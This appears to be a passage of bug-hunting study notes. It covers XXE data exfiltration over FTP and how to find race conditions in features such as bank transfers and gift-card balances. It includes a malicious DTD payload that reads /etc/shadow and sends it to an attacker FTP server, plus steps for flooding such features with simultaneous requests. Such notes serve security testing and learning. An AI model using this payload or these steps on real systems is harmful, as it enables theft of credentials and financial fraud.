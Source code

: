#### The File Transfer Protocol (FTP) can also be used to send data directly while bypassing special character restrictions. HTTP has many special character restrictions and typically restricts the length of the URL. Using FTP instead is an easy way to bypass that. To use it, you need to run a simple FTP server on your machine and modify your malicious DTD accordingly. I used the simple Ruby server script at https://github.com/ONsec-Lab/scripts/blob/ master/xxe-ftp-server.rb:
	<!ENTITY % file SYSTEM "file:///etc/shadow">
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
	1 'ftp://attacker_server:2121/?%file;'>">
	%ent;
	%exfiltrate;
#### We are using port 2121 here because the Ruby FTP server we are using runs on port 2121, but the correct port to use depends on how you run your server 1.


# <font color="red">RACE</font>
## <font color="red">Mechanism</font>:


## <font color="red">Prevention</font>:


## <font color="red">Haunt</font>:

note : use turbo intruder (a burp extension ) for testing race condition
### <font color="red">step 1-</font >find features prone to race condition :
#### Most of the time, race conditions occur in features that deal with numbers, such as online voting, online gaming scores, bank transfers,e-commerce payments, and gift card balances. Look for these features in an application and take note of the request involved in updating thesenumbers.

#### For example, let’s say that, in your proxy, you’ve spotted the request used to transfer money from your banking site. You should copy this request to use for testing. In Burp Suite, you can copy a request by right-clicking it and selecting Copy as curl command.
### <font color="red"> step2-</font > send simultaneous Requests:
#### You can then test for and exploit race conditions in the target by sending multiple requests to the server simultaneously.
